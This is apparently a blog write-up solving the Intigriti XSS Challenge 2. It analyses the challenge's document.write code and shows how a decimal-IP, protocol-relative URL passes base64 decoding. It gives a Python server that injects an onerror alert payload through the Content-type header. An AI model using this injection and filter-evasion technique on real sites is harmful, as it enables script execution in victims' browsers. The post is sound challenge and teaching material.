 ```yaml
---
layout: post
title:  "Intigriti XSS Challenge 2 and how I lost time to a bad assumption"
date:   2019-05-26
categories: intigriti xss
---
```


[Intigriti](https://www.intigriti.com/public/) is once again offering us an [XSS challenge](https://challenge.intigriti.io/2/). The first one had cryptic code and a complicated setup between the page and an `iframe`, but this time around the code is rather straight-forward. Let's see if that makes the challenge easier. ;)

## Analyzing the code

```javascript
var b64img = window.location.hash.substr(1);
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
  if (this.readyState == 4 && this.status == 200) {
    var reader = new FileReader();
    reader.onloadend = function() {
      document.write(`
        <a href="${b64img}" alt="${atob(b64img)}">
          <img src="${reader.result}">
        </a>`);
    }
    reader.readAsDataURL(this.response);
  }
};
xhttp.responseType = 'blob';
xhttp.open("GET", b64img, true);
xhttp.send();
```

1. The `hash` of the current page's url (minus the leading `#`) is assigned to `b64img`
2. A GET HTTP request is sent to `b64img` and the answer will be read as a [Blob](https://developer.mozilla.org/en-US/docs/Web/API/Blob)
3. If the HTTP request answers with 200, the Blob is [`readAsDataURL`](https://developer.mozilla.org/en-US/docs/Web/API/FileReader/readAsDataURL) with a [`FileReader`](https://developer.mozilla.org/en-US/docs/Web/API/FileReader)
4. Once the Blob is read, `b64img`, `atob(b64img)` and the data URL created from the Blob are inserted into the DOM

Main observations:

- The `hash` of the URL somehow has to be a valid URL because we're making an HTTP request from it and we expect a 200 response
- That URL also has to be a valid base64 string because we're sending it to `atob(64)` which is the JavaScript function to decode base64

## Finding a valid URL

As it was the case for the last challenge, I don't care about XSS payloads yet. It's pretty clear either `b64img`, `atob(b64img)` or `reader.result` will be where we get XSS from, but there is a major challenge before getting there: crafting a valid URL that is also valid base64!

The way its coded, a value for `b64img` without a protocol (i.e.: `http://`) will make a request relative to the current domain (`https://challenge.intigriti.io/2/`). For example if `b64img` is `ABC` it will trigger a request for `https://challenge.intigriti.io/2/ABC` while if `b64img` is `http://test.com` it will trigger a request for `http://test.com`.

At this point I made the assumption that `/` wasn't a valid base64 character (worked too much with url-safe base64 implementations lately!) and lost a ton of time trying a ton of things that made no sense until [@mastjohnny](https://twitter.com/mastjohnny) made me realize that it is a valid base64 character indeed. Many hours were lost exploring data URLs, `XMLHttpRequest` and `FileReader` for strange edge cases that would help me here but I should have verified my assumption instead. :)

### Eliminating invalid characters

I started a server on my machine and tried loading [https://challenge.intigriti.io/2/#http://127.0.0.1](https://challenge.intigriti.io/2/#http://127.0.0.1). This resulted in the following (expected) error

> Uncaught DOMException: Failed to execute 'atob' on 'Window': The string to be decoded is not correctly encoded.

I need to get rid of the `.` and the `:` because they are invalid base64 characters. Two transformations are needed!

1. Remove the `.` by changing the IP to a decimal IP: `http://127.0.0.1` becomes `http://2130706433` (See [IPv4 Address Representations](https://en.wikipedia.org/wiki/IPv4#Address_representations))
2. Remove the `:` by using a protocol-relative URL: `http://2130706433` becomes `//2130706433`
    - A protocol relative url will take the protocol of the parent page

With that I try [https://challenge.intigriti.io/2/#//2130706433](https://challenge.intigriti.io/2/#//2130706433) and the result is the following error

> GET https://127.0.0.1/ net::ERR_CONNECTION_REFUSED

The request went to *https* because I'm on the https version of the challenge. Let's try [http://challenge.intigriti.io/2/#//2130706433](http://challenge.intigriti.io/2/#//2130706433)

> Access to XMLHttpRequest at 'http://127.0.0.1/' from origin 'http://challenge.intigriti.io' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.

There is no CORS header returned by my server so I need to add `Access-Control-Allow-Origin: *` to my response.

I can now reload the same URL and it loads without crashing!

## XSS time

`readAsDataURL` returns a data URL which contains the `Content-type` of the resource loaded. For example the default challenge URL loads an image that turns into the data URL `"data:application/octet-stream;base64,iVBORw0KGgoAAAANSUhEUgAAA0o..."`. This text is inserted straight into the HTML and I have control over the `Content-type` from my server so I set it to `text/" onerror="alert(document.domain)"><!--` and...

![Success!]({{ '/images/intigriti_xss_victory.png' | absolute_url }})

Success! I uploaded the simple HTTP server to my VPS, changed `127.0.0.1` to its public IP and submitted my solution. There were other ways to trigger the XSS but instead of listing them here I encourage you to go on twitter and find other write-ups documenting them.

Here's the code used for my server.

```python
#!/usr/bin/python3

from http.server import BaseHTTPRequestHandler, HTTPServer

class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        message = "Hello Intigriti!"

        self.protocol_version = "HTTP/1.1"
        self.send_response(200)
        self.send_header("Content-Length", len(message))
        self.send_header("Content-type", 'text/" onerror="alert(document.domain)"><!--')
        self.send_header("Access-Control-Allow-Origin", "*")
        self.end_headers()

        self.wfile.write(bytes(message, "utf8"))
        return

def run():
    server = ('0.0.0.0', 80)
    httpd = HTTPServer(server, RequestHandler)
    httpd.serve_forever()
run()
```

## Conclusion

Another fun challenge! This time around my key takeaways are:

- Challenge your own assumptions, they could be making the challenge harder than it really is
- Different representations of the same thing can help evade filters/validations, keep them in mind!

Thank you [@intigriti](https://twitter.com/intigriti/) and good luck to everyone for the prize!
